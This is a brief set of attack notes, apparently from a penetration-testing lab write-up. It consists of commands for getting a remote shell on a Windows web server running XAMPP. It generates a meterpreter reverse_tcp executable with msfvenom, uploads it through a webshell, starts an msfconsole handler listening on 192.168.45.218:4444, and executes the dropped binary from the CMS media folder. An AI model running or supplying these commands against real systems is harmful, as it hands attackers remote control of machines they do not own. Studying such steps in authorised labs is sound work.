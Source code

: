 create payload and upload through webshell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

launch msfconsole
```
msfconsole -q -x 'use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp; set LHOST 192.168.45.218; set LPORT 4444; run'
```

execute payload
```
C:\xampp\htdocs\cms\media\shell-x86.exe
```
